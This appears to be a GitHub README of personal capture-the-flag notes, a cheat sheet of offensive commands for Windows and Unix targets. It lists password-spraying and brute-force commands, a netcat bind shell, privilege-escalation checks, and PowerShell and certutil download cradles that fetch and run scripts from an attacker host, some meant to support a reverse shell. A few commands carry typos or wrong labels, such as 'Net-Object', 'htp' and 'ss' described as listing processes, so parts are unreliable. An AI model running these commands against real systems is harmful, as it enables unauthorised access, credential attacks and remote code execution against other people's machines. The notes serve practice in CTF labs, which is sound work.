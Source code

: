 # ctf_notes
notes gathered from doing numerous CTFs to help with further CTFs

Windows & *nix:
- password spraying:
crackmapexec <module> -u <users.txt> -p <passwords.txt> <ip or ip range>
- bruteforce
medusa -h <ip> -U <users.txt> -P <passwords.txt> -M <module> <ip> (more options may be required, example used was SSH module)


upgrade shell using python pty library and adds auto complete for steps 2+ :
1 - python -c 'import pty;pty.spawn("/bin/bash")'
2 - CTRL z
3 - stty raw -echo
4 - fg <enter key>
5 - export TERM=xterm

known hosts ssh file will show all hosts the host has SSH'd into

- command to reset a broke terminal session
reset

- mysql syntax for navigation:
show databases; (shows available databases)
use <database name>; (selects database to use)
show tables; (shows tables in database)
describe <table name>; (shows more information on values inside table)
select <table value> from <table>; (shows items inside the table values of the table)
  
- file upload:
curl http://<ip>:<port>/<file> -output <file>    (works with powershell and linux)






*nix:
common privilege escalation techniques:
- seeing if any commands can be run as sude:
sudo -l
- check which programs are avilable on the system for priviledge escalation and send errors away from output
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
- download all FTP contents (--no-passive if passive is not allowed):
wget -m htp:anonymous:anonymous@<remote IP> (--no-passive) 
- bind shell:
(victim) nc -lp <port> -e /bin/bash  (attacker) rlwrap nc <ip> <port>
- listing file/ directory structure:
find . 
- listing file structure and look for specific file/ directory name
find . | grep -i <word to look for>
- show all running processes:
ss -lntp
- 







Windows:

windows powershell locations:
c:\Windows\System32\    - 32 bit
c:\Windows\SysWow64\    - 32 bit
c:\Windows\SysNative\   - 64 bit


File download:
cmd.exe
- certutil -urlcache -f http://<ip>:<port>/<file> <file output>

powershell:
- file upload (will auto run any .ps1 scripts): 
powershell IEX(New-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")
- using powershell directly causes reverse shell crash:
echo 'IEX(Net-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")' | powershell -noprofile - 
  
